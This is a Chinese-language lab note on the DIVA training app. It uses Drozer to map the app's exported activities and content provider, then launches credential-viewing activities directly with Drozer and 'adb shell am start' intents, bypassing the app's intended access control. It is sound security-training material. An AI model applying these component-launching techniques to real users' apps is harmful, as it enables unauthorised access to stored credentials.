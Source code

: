 ```yaml
---
title: Test DIVA - activity exported
tags: [Android, Drozer]

category: "Tools > Others > Android Related > Drozer > Test DIVA"
---
```


* DIVA - [Download](https://payatu.com/wp-content/uploads/2016/01/diva-beta.tar.gz)

# Test DIVA - activity exported
參考[^csdn-diva-1][^安全客-diva-1][^安全客-diva-2][^hacktricks-diva-sieve]
1. 起手式 - 確認App資訊
    ```bash
    dz> run app.package.list -f diva
    Attempting to run shell module
    jakhar.aseem.diva (Diva)
    
    dz> run app.package.info -a jakhar.aseem.diva
    Attempting to run shell module
    Package: jakhar.aseem.diva
      Application Label: Diva
      Process Name: jakhar.aseem.diva
      Version: 1.0
      Data Directory: /data/user/0/jakhar.aseem.diva
      APK Path: /data/app/~~ieYmYeSxvDRbS7R8da3n_g==/jakhar.aseem.diva--xnWMS5i2UVEuuoE1JHskg==/base.apk
      UID: 10282
      GID: [3003]
      Shared Libraries: [/system/framework/android.test.base.jar, /system/framework/org.apache.http.legacy.jar]
      Shared User ID: null
      Uses Permissions:
      - android.permission.WRITE_EXTERNAL_STORAGE
      - android.permission.READ_EXTERNAL_STORAGE
      - android.permission.INTERNET
      - android.permission.POST_NOTIFICATIONS
      - android.permission.ACCESS_MEDIA_LOCATION
      - android.permission.READ_MEDIA_AUDIO
      - android.permission.READ_MEDIA_VIDEO
      - android.permission.READ_MEDIA_IMAGES
      Defines Permissions:
      - None

    dz> run app.package.attacksurface jakhar.aseem.diva
    Attempting to run shell module
    Attack Surface:
      3 activities exported
      0 broadcast receivers exported
      1 content providers exported
      0 services exported
        is debuggable
    ```
    package name: jakhar.aseem.diva
    attack surface: activities exported/content providers exported/is debuggable
2. 確認activiy的資訊
    ```bash
    dz> run app.activity.info -a jakhar.aseem.diva
    Attempting to run shell module
    Package: jakhar.aseem.diva
      jakhar.aseem.diva.MainActivity
        Permission: null
      jakhar.aseem.diva.APICredsActivity
        Permission: null
      jakhar.aseem.diva.APICreds2Activity
        Permission: null
    ```
    目前有兩個被export的activity，分別啟動後如下
    ```bash
    dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
    ```
    ![Screenshot_20240604-155745](https://hackmd.io/_uploads/By3VCB340.png =200x)

    ```bash
    dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICreds2Activity
    ```
    ![Screenshot_20240604-161940](https://hackmd.io/_uploads/ryTHAS3EA.png =200x)
    按照[^安全客-diva-2]的說明，這是==9.Access Control Issue - Part 1==題目的畫面，原本的設想是不要按`VIEW API CREDENTIALS`這個按鈕也可以取得上面的機敏資料
    
## 另外一種解法
按照[^安全客-diva-2]作者用另外一種方式去load這個activity，先看AndroidManifest.xml，當中有特別寫到這個activity是用intent-filter當作這個activity的類似保護的東西
```xml
<activity android:label="@string/apic_label" android:name="jakhar.aseem.diva.APICredsActivity">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
<activity android:label="@string/apic2_label" android:name="jakhar.aseem.diva.APICreds2Activity">
    <intent-filter>
        <action android:name="jakhar.aseem.diva.action.VIEW_CREDS2"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```
會發現前面找到的兩個activity都出現在這邊，那是否我可以直接用adb，啟動這個activity，並且給予他指定的intent，答案是肯定的
```bash
$ adb shell am start -n jakhar.aseem.diva/.APICredsActivity -a jakhar.aseem.diva.action.VIEW_CREDS
Starting: Intent { act=jakhar.aseem.diva.action.VIEW_CREDS cmp=jakhar.aseem.diva/.APICredsActivity }
$ adb shell am start -n jakhar.aseem.diva/.APICreds2Activity -a jakhar.aseem.diva.action.VIEW_CREDS2
Starting: Intent { act=jakhar.aseem.diva.action.VIEW_CREDS2 cmp=jakhar.aseem.diva/.APICreds2Activity }
```
`am start`: 啟動一個activity
`-n <package name + /. + activity class name>`: 指定哪一個activity
`-a <specified intent>`: 指定的 action，用於告訴應用程式以特定方式處理這個啟動動作

按照上面的指示，就會出現剛剛一樣的畫面了
# Reference
[^csdn-diva-1]:[DIVA靶場測試APP客戶端不規範項（一）](https://blog.csdn.net/weixin_44309905/article/details/123764180)
[^hacktricks-diva-sieve]:[Drozer Tutorial](https://book.hacktricks.xyz/v/cn/mobile-pentesting/android-app-pentesting/drozer-tutorial)
[^安全客-diva-1]:[【技術分享】Android App常見安全問題演練分析系統-DIVA-Part1](https://www.anquanke.com/post/id/84603)
[^安全客-diva-2]:[【技術分享】Android App常見安全問題演練分析系統-DIVA-Part2](https://www.anquanke.com/post/id/86057)